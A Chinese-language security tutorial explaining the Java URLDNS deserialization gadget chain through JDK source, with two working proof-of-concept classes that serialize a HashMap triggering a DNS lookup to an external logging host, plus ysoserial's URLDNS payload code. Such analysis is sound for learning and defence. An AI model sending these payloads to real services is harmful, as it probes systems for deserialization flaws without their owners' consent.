



# URLDNS利用链分析

## 前言

`URLDNS`是相对于其他利用链较为简单的一条`gadget`利用链，由于`URLDNS`不依赖与其他第三方库，且不限制`jdk`版本，所以常常用来检测程序是否存在反序列化漏洞。

`URLDNS`的特点：只能发送`DNS`请求，不能执行其他任何命令。

## 利用链分析

问题出在`HashMap`的`readObject()`方法中，我们看一下源码，在最后传进的`putVal()`方法中对`key`进行了`hash()`计算


跟进`hash()`方法，接着会调用传进来的`key`的`hashCode()`的方法


因为我们传进来的`key`是`URL`对象，因此接着跟进`URL`类的`hashCode()`方法，这里对`hackCode`参数的值进行了判断，需要满足等于`-1`的条件


继续跟进`hashCode = handler.hashCode(this);`中的`hashCode()`方法，该方法里面调用了`getHostAddress()`方法


继续跟进`getHostAddress()`方法，发现调用了`InetAddress.getByName(host);`方法


`InetAddress.getByName(host)`：只需要传入目标主机的名字，`InetAddress`会尝试做连接DNS服务器，并且获取IP地址的操作。

因此在此处发起了一次`DNS`请求，总结`URLDNS`利用链如下：
```
HashMap --> readObject()
HashMap --> putVal()
HashMap --> hash()
URL     --> hashCode()
URLStreamHandler --> hashCode()
URLStreamHandler --> getHostAddress()
InetAddress      --> InetAddress.getByName()
```

构造 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://c62a1767.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```

成功发送了 DNS 请求


## 为什么发送了两次请求？

可以看到上图中的结果显示一共发送了两次请求，调试后发现`HashMap.put()`方法也会调用一次`putVal()`方法


为了规避实际环境中产生误判的情况，我们需要消除掉这一次多余的`DNS`请求。

我们在`put()`方法前先设置`hashCode`字段值不为`-1`就可以不进入`hashCode = handler.hashCode(this);`语句里，就可避免发送`DNS`请求。

最终 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://4b9cc854.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```


## ysoserial的实现

`ysoserial`是`java`反序列化利用链的集合工具，可以根据我们需要的利用链生成反序列 POC。项目地址：

```
https://github.com/frohoff/ysoserial
```

下载源代码后导入 idea，根据`pom.xml`文件中的引导设置`GeneratePayload.java`文件为`mainClass`


设置`URLDNS`的运行参数

其中`URLDNS`利用链部分的实现源码如下（删除部分不重要的内容）：
```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

简化后如下：
```java
URLStreamHandler handler = new SilentURLStreamHandler();
HashMap ht = new HashMap(); 
URL u = new URL(null, url, handler);
ht.put(u, url); 
Reflections.setFieldValue(u, "hashCode", -1); 

static class SilentURLStreamHandler extends URLStreamHandler {
  protected URLConnection openConnection(URL u) throws IOException {
    return null;
  }

  protected synchronized InetAddress getHostAddress(URL u) {
    return null;
  }
}
```

利用链如下：
```
Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

可以看到`ysoserial`直接继承`URLStreamHandler`类重写了`getHostAddress()`方法为空，因此避免了在生成`payload`的时候发起`DNS`请求。

**那为什么反序列化后还能发送`DNS`请求？**

可以看到在`java.net.URL`类中`handler`参数被`transient`关键字修饰


> 一旦变量被transient修饰，变量将不再是对象持久化的一部分，该变量内容在序列化后无法获得访问（被忽略）

因此在序列化的过程中会忽略掉`handler`，在反序列化时能正常执行`DNS`请求。
